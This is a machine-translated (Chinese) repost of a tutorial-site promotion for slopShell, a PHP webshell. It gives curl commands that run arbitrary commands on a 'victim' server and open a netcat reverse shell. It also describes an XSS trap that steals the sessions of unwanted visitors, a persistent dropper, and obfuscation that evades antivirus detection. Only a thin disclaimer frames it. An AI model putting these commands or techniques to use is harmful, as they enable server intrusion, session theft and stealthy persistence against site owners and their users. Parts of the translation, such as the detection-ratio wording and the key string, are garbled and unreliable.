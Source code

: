 # slopShell:您需要的唯一 Php Webshell

> 原文：<https://kalilinuxtutorials.com/slopshell/>

[![slopShell : The Only Php Webshell You Need](img//c060e6eebdcc050779131a0d1702ecdd.png "slopShell : The Only Php Webshell You Need")](https://1.bp.blogspot.com/-GTQ9NYtnRpc/YMS_Cnk9iOI/AAAAAAAAJe0/UcaAX6pK-b4pJIWmGIuRLtfFjKvJrRYwgCLcBGAsYHQ/s728/slopShell%25281%2529.png)

slopShell 是你唯一需要的 Php Webshell。因为我练了，忘了说用法。开始了。

要让这个 shell 工作，您需要两样东西，一个允许 php 文件上传的受害者(您自己，在教育环境中)和一个向这个 webshell 发送 http 请求的方法。

感谢社区给予的所有支持，这对我们意义重大。现在来看看将会添加到这个外壳上的东西，让它变得更棒。

*   相互 TLS，能够动态生成 CA(如果可能的话)
*   更精致的滴管/外壳本身，确保外壳不会因长时间访问而被绊倒。

基本使用视频(托管在 Youtube 上):

![](img//1eae36872ec2d4a0ae4e55c7868886af.png)

当前室性心动过速检测比率:2/59

![Virus Total](img//f8de0c3643ec29f056606af70749be57.png)

当前室性心动过速检测比率(模糊版本):0/59

![Virus Total](img//f8de0c3643ec29f056606af70749be57.png)

**设置**

好了，我们开始吧，伙计们，有一个痒，我必须用 PHP 写点东西，所以这是它。这个 webshell 有一些额外的功能，并且每天都会添加更多。您将需要运行一个由您控制的 pgsql 服务器。无论你如何实施，都取决于你自己。

Debian: `**apt install -y postgresql php php-pear && python -m pip install proxybroker --user**`

RHEL 系统:`**dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user**`

胜利:`**install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.**`

一旦您正确地设置了这些，并且可以确认它们正在运行。我鼓励使用的一个命令是用 **`pg_ctl`** 你可以这样创建数据库，或者至少初始化它并启动它。那么所有的数据库查询都将正常工作。

**如何互动**

对于反分析程序，我(oldkingcone)很乐意尝试并以此为荣，但我不能凭良心说，所以灵感来自一个人(你知道你是谁，你这个邪恶的天才。)谁给我介绍了这个 repo:[https://github . com/null array/Archivist/blob/master/logger . py # L123](https://github.com/NullArray/Archivist/blob/master/logger.py#L123)首先，你需要选择一个有效的用户代理来使用，这有点像是防止你的 webshell 被除你之外的任何人意外发现的第一层保护。我选择了 sp/1.1，因为它不是典型的用户代理。这会导致 pentest 中出现危险信号，您的访问或脚本被阻止或删除。所以，放聪明点。代码混淆不会造成伤害，我没有把它加进去，因为这取决于你。要使用 shell，有一些预置来帮助您进行笔测试和机器遍历。我没有为 windows 添加太多，因为我不喜欢为 windows 开发。如果你增加了或知道了一些常规或技巧，请随时提出你的建议，我会补充的。如何将这个 webshell 与 curl 结合使用的示例:

`**curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v**`

或者执行自定义命令:

`**curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v**`

或者尝试为您的计算机建立一个反向 shell:

`**curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v**`

*   mthd =你要用来建立反向 shell 的方法，这是在`**$comma**`数组中预定义的，可以随意添加，可选，如果为 null，脚本会为你选择。
*   rhost = you，现在不需要这个和 rport，因为它默认使用 netcat，ip 地址在`**$_SERVER["REMOTE_ADDR"]**` php env 变量中。
*   rport =您的侦听器端口，默认设置为 1634，这是因为。
*   shell =您想要的系统 shell 类型。我知道 bash 并不是所有系统的标准，但是这就是为什么在您尝试执行这个命令之前做一些系统侦察是很好的。

这是这个壳的大部分。如果有人碰巧在这个外壳上没有提供脚本中指定的确切用户代理字符串，这个外壳将产生一个 500 错误和一个虚假的错误页面，然后它将尝试一些 XSS 来窃取该用户的会话信息，并将其发送回您的服务器/系统上的处理程序脚本。这将尝试将信息存储在正在运行的日志文件中。如果它不能这样做，那么备份就是你的日志。一旦 XSS 完成，这个 shell 将把用户重定向回 web 服务器的根目录(/)。因此，如果有人发现这一点，你将窃取会话，甚至可以加强它以代表用户在服务器上执行命令，或者通过 beef 或其他方法在用户浏览器上放置一个反向外壳。可能性是无限的。

**用例图像**

在浏览器中，导航到没有正确的用户代理字符串。(第一级授权)

![](img//6d2b448de92b6a5c63ced740289fb1e0.png)

在终端中使用，这就是它的设计工作方式，使用 curl 和-vH "User-Agent: sp1.1 "开关。

![](img//823eafeac677b640f4e93578403deaef.png)

混淆脚本示例:

![](img//71ba49fe83be7be4152141bb63fa69b6.png)

第 2 代模糊脚本:

![](img//bfa776f0bc35e01a717050e6a3d3f567.png)

**通过客户端脚本进行交互**

一旦客户机脚本完成，作为操作员的您将不再需要通过 curl 来使用这个 shell。将有一个客户端脚本，您可以使用它来执行所有命令/控制。除了这个客户端脚本，还有一个 dropper。这个滴管将确保脚本在启动时运行，即使网站被删除。包括一些 call home 函数，如果在从 1 到 3 的级别上请求混淆，3 是最高级别，因为每个函数都将被 rot 加密，然后在整个文件内以 base64 编码，以随机名称分配给文件本身。这有助于避免签名检测。

**加密**

一旦加密例程完全完成，dropper 脚本将被加密，并高度混淆。示例输出:

**Base64 解码:也是一个测试 123
重编码:ywxzbyhibhrlc 3 qgmtiz
密钥:4212 BD 1 ff 1d 366 f 23 ca 77021706 a9 a 29 CB 824 b45 f 82 AE 312 BCF 220 de 68 c 76760289 f1 d 550 aa 341002 f1 CFA 9831 e 871 e
密钥长度:96
加密结果:【T5**

**附加**

这是保密的。但我另有决定。

不要滥用这个外壳，并得到一个签名附在它上面，这是相当隐形的权利，因为它是全新的。

作为维护者，我对该产品的误用不负任何责任。这是为了合法渗透测试/红队目的，和/或教育价值而发布的。在使用本脚本之前，请了解您所在国家的适用法律，并且在使用本脚本时不要违反法律。谢谢你，祝你愉快。

如果你喜欢这个脚本，你有义务跟随我，并在这个回购上扔一颗星…因为未来的版本将有更多的功能(或错误)取决于你如何看待它。

[**Download**](https://github.com/oldkingcone/slopShell)